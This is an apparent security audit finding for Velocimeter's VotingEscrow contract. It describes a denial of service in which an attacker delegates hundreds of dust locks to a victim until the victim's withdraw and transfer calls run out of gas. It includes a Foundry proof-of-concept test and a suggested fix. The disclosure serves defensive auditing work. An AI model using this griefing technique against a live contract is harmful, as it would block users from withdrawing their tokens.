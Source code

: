 Lucky Peanut Dragon

Medium

# DOS attack by delegating tokens

## Summary

## Vulnerability Detail
Any user can delegate the balance of the locked token amount to anyone by calling delegate().

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1431-L1505
```solidity
function _moveAllDelegates(
        address tokenOwner,
        address srcRep,
        address dstRep
    ) internal {
        // You can only redelegate what you own
        if (srcRep != dstRep) {
            if (srcRep != address(0)) {
                //......
                    }
                }

                numCheckpoints[srcRep] = srcRepNum + 1;
            }

            if (dstRep != address(0)) {
                uint32 dstRepNum = numCheckpoints[dstRep];
                uint[] storage dstRepOld = dstRepNum > 0
                    ? checkpoints[dstRep][dstRepNum - 1].tokenIds
                    : checkpoints[dstRep][0].tokenIds;
                uint32 nextDstRepNum = _findWhatCheckpointToWrite(dstRep);
                uint[] storage dstRepNew = checkpoints[dstRep][
                    nextDstRepNum
                ].tokenIds;
                uint ownerTokenCount = ownerToNFTokenCount[tokenOwner];
                require(
                    dstRepOld.length + ownerTokenCount <= MAX_DELEGATES,
                    "dstRep would have too many tokenIds"
                );
                // All the same
                for (uint i = 0; i < dstRepOld.length; i++) {
                    uint tId = dstRepOld[i];
                    dstRepNew.push(tId);
                }
                // Plus all that's owned
                for (uint i = 0; i < ownerTokenCount; i++) {
                    uint tId = ownerToNFTokenIdList[tokenOwner][i];
                    dstRepNew.push(tId);
                }

                numCheckpoints[dstRep] = dstRepNum + 1;
            }
        }
    }
```

As the delegated tokens are maintained in an array that's vulnerable to DOS attack, the VotingEscrow contract has a check of MAX_DELEGATES = 1024, preventing an address from having a huge array.

```solidity
uint public constant MAX_DELEGATES = 1024; // avoid too much gas
```

Given the current implementation, any user with even less than 1024 delegated tokens takes more than enough to out of gas the tx and revert. Functions _moveTokenDelegates and _moveAllDelegates will consume a lot of gas and will cause DOS.

These functions(_moveTokenDelegates() and _moveAllDelegates()) from VotingEscrow are called in the following functions, which makes them vulnerable to DoS.

delegate()
safeTransferFrom()
transferFrom()
merge()
withdraw()


If someone tries to attack a victim's address by creating a new address, a new lock, and delegating to the victim, the victim can not use the withdraw/transfer/delegate functions.
## Impact
Due to the attack, multiple users won't be able to withdraw their tokens.
## Code Snippet
VotingEscrow.t.sol


```solidity
function testDelegateLimitAttack() public {
        flowDaiPair.approve(address(escrow), type(uint256).max);

        uint tokenId = escrow.create_lock(TOKEN_1, 1 weeks);

        for (uint256 i = 0; i < 285; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 12);

            address fakeAccount = address(uint160(block.timestamp + i));
            flowDaiPair.transfer(fakeAccount, 1);

            vm.startPrank(fakeAccount);
            flowDaiPair.approve(address(escrow), type(uint256).max);
            escrow.create_lock(1, 52 weeks);
            escrow.delegate(address(this));
            vm.stopPrank();
        }

        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 1 weeks);

        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 1 weeks);

        escrow.withdraw(tokenId);
    }
```
## Tool used

Manual Review

## Recommendation
Adjust the MAX_DELEGATES to a lower number or give users the option to opt out or opt in for certain delegated tokens.